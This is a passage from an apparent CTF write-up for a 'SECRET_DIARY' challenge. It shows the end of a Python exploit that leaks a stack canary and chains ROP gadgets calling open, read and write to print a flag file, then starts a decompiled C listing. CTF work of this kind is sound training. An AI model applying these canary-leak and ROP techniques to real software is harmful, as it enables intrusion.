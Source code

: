 ``` python
    payload += p21(1)
    payload += p21(canary_addr)
    write(s, b"BBBB", b"\xff", payload)     # 0x1c000
    
    r = (list(s))
    canary = u21(r.split(b"1)")[1][:3])
    log.info(f"canary : {hex(canary)}")

    payload = b"c" * (read_canary_addr - (0x3a000 + 0x4ec))
    payload += p21(canary)
    payload += b"flag\x00\x00"
    payload += p21(canary)
    # open("flag") => r0 = 1, r1 = "flag"
    payload += p21(0x609)                   # ret
    payload += p21(read_canary_addr + 3)    # pop r1
    payload += p21(0x1)                     # pop r0
    payload += p21(0x625)                   # pop pc ; syscall
    # read(2, 0x3a000, 0x40) => r0 = 3, r1 = 2, r2 = 0x3a000, r3 = 0x40
    payload += p21(canary)                  # pop r6
    payload += p21(0x28)                    # pop r3
    payload += p21(0x3a000)                 # pop r2
    payload += p21(0x2)                     # pop r1
    payload += p21(0x60b)                   # pop pc ; pop r0
    payload += p21(0x3)                     # pop r0
    payload += p21(0x625)                   # pop pc ; syscall
    # write(1, 0x3a000, 0x40) => r0 = 2, r1 = 1, r2 = 0x3a000, r3 = 0x40
    payload += p21(canary)                  # pop r6
    payload += p21(0x28)                    # pop r3
    payload += p21(0x3a000)                 # pop r2
    payload += p21(0x1)                     # pop r1
    payload += p21(0x60b)                   # pop pc ; pop r0
    payload += p21(0x2)                     # pop r0
    payload += p21(0x625)                   # pop pc ; syscall
    print(write(s, b"CCCC", b"\xff", payload))     # 0x3a000

if __name__=='__main__':
    main()
```

## 0x04. Decompile
``` c
#define O_MAPPED 0b1000
#define O_READ   0b0100
#define O_WRITE  0b0010
#define O_EXEC   0b0001
char *string_0x6c3 = "====================================================\
              |                   SECRET_DIARY                   |\
              ====================================================\
              |                   ___________                    |\
              |                  |     _     |                   |\
              |                  |    (_)    |                   |\
              |                  |   |   |   |                   |\
              |                  |   |___|   |                   |\
              |                  |___________|                   |\
              ----------------------------------------------------";

int count_0x59000 = 0;
struct diary *diary_ptr_0x59003[9];

struct diary {
    char title[30];
    char contents[1200];
```